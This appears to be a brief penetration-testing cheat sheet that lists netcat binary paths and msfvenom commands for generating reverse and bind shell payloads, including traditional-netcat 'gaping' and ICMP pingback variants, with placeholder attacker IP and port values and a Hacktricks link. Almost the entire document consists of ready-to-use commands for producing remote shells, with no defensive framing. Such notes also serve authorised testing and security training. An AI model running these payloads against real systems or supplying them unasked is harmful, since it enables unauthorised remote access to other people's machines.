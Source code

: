 # Manual

## 01 - Common Files

```
/usr/bin/nc
/usr/bin/nc.openbsd
/usr/bin/ncat
/usr/bin/nc.traditional
```

## 02 - Generate Payloads

### 2.1 - OpenBSD Variant

#### 2.1.1 - Reverse Shell

```
$ msfvenom -p cmd/unix/reverse_netcat lhost=<IP> lport=<PORT>
```

#### 2.1.2 - Bind Shell

```
$ msfvenom -p cmd/unix/bind_netcat lport=<PORT>
```

### 2.2 - Traditional GNU Variant

#### 2.2.1 - Reverse Shell

```
$ msfvenom -p cmd/unix/reverse_netcat_gaping lhost=<IP> lport=<PORT>
```

#### 2.2.2 - Bind Shell

```
$ msfvenom -p cmd/unix/bind_netcat_gaping lport=<PORT>

$ msfvenom -p cmd/unix/bind_netcat_gaping_ipv6 lport=<PORT>
```

### 2.3 - ICMP Protocol

#### 2.3.1 - Reverse Shell

```
$ msfvenom -p cmd/unix/pingback_reverse lhost=<IP> lport=<PORT>
```

#### 2.3.2 - Bind Shell

```
$ msfvenom -p cmd/unix/pingback_bind lport=<PORT>
```

---
## References

### Hacktricks

- [Hacktricks: Shells Linux](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/linux.html)